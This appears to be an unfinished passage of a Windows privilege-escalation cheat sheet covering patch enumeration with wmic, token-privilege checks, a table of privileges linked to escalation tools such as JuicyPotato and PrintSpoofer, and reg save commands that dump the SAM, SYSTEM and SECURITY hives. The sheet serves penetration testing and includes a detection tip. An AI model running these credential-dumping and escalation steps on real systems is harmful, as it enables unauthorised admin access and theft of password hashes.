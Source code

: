 Please note that it is not easy to find vulnerabilities with the output we receive from the query below.
KB Number depends on OS version and Service Pack, which make it difficult to directly map missing pack to known vulnerabilities.
However, if the "InstalledOn" column don't show patches that are "only" a few months old, this can be juicy.

```bash
wmic qfe get Caption,Description,HotFixID,InstalledOn # Get Installed patches
```

:white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor for suspicious Windows Management Instrumentation activities

#### Privilege Abuse

```bash
# Bash
whoami # Displays the current domain and user name.
whoami /all # Displays all information in the current access token, including the current user name, security identifiers (SID), privileges, and groups that the current user belongs to.
# Powershell
$env:UserName
[Security.Principal.WindowsIdentity]::GetCurrent()
```

Check for the following access tokens

> / / / To Finish

|Privilege|Impact|Tool|Notes|
|-|-|-|-|
|SeAssignPrimaryToken|Admin|3rd party tool| Exploit either<br /> - rottenpotato.exe <br /> - juicypotato.exe|
|SeBackup|Threat|CLI|Read sensitve files|
|SeCreateToken|Admin|3rd party tool|
|SeDebug|Admin|PowerShell|<https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Conjure-LSASS.ps1>|
|SeImpersonatePrivilege|Admin|[https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)|
|SeLoadDriver|Admin|[EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/|
|SeRestore|Admin||
|SeTakeOwnership|Admin||
|SeTcb|Admin||

- SeBackupPrivilege:
  - reg save HKLM\SAM sam.hive
  - reg save HKLM\SYSTEM system.hive
  - reg save hklm\security security.hive
